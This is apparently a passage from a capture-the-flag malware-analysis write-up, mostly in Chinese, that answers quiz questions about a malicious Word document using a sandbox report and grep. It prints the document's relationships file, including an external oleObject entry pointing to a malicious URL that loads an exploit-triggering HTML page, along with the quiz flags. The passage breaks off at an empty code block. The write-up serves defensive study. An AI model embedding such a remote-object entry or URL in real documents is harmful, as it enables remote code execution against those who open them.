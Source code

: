     ![圖片](https://hackmd.io/_uploads/HJCtf_CD6.png)
* 方法二: Public Any.Run Task
    有了前面的公開project支援，在network flow的地方就可以看到他頻繁的和某一個domain連線，也就是此次的答案
    ![圖片](https://hackmd.io/_uploads/B1uIruCDT.png)

:::spoiler Flag
Flag: `https://www.xmlformats.com/office/word/2022/wordprocessingDrawing/RDF842l.html`
:::
## ==Q4==
> What is the name of the XML file that is storing the extracted URL? (Format: file.name.ext
### Recon
現在我們知道了他和外部連線的domain，現在要看他在哪一個file出現過，所以就用老方法直接grep search就好
### Exploit
```bash!
$ unzip sample.doc
Archive:  sample.doc
  inflating: [Content_Types].xml     
  inflating: docProps/app.xml        
  inflating: docProps/core.xml       
  inflating: word/document.xml       
  inflating: word/fontTable.xml      
  inflating: word/settings.xml       
  inflating: word/styles.xml         
  inflating: word/webSettings.xml    
  inflating: word/theme/theme1.xml   
  inflating: word/_rels/document.xml.rels  
  inflating: _rels/.rels             
$ grep -r -i 'https://www.xmlformats.com/office/word/2022/wordprocessingDrawing/RDF842l.html' *
word/_rels/document.xml.rels:<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId3" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/webSettings" Target="webSettings.xml"/><Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/settings" Target="settings.xml"/><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/styles" Target="styles.xml"/><Relationship Id="rId996" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="https://www.xmlformats.com/office/word/2022/wordprocessingDrawing/RDF842l.html!" TargetMode="External"/><Relationship Id="rId5" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/theme" Target="theme/theme1.xml"/><Relationship Id="rId4" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/fontTable" Target="fontTable.xml"/></Relationships>
```

:::spoiler Flag
Flag: `document.xml.rels`
:::
## ==Q5==
> The extracted URL accesses a HTML file that triggers the vulnerability to execute a malicious payload. According to the HTML processing functions, any files with fewer than `<Number>` bytes would not invoke the payload. Submit the `<Number>` (Format: Number of Bytes)
### Recon
這一題是看[^wp1]的說明才知道答案的，首先我並不知道他中間傳輸的command為何，並且根據Fortinet的報告[^wp4]，可以知道這一個攻擊的具體poc以及mitigation，以下是從any.run project擷取下來的攻擊command，
```bash!
```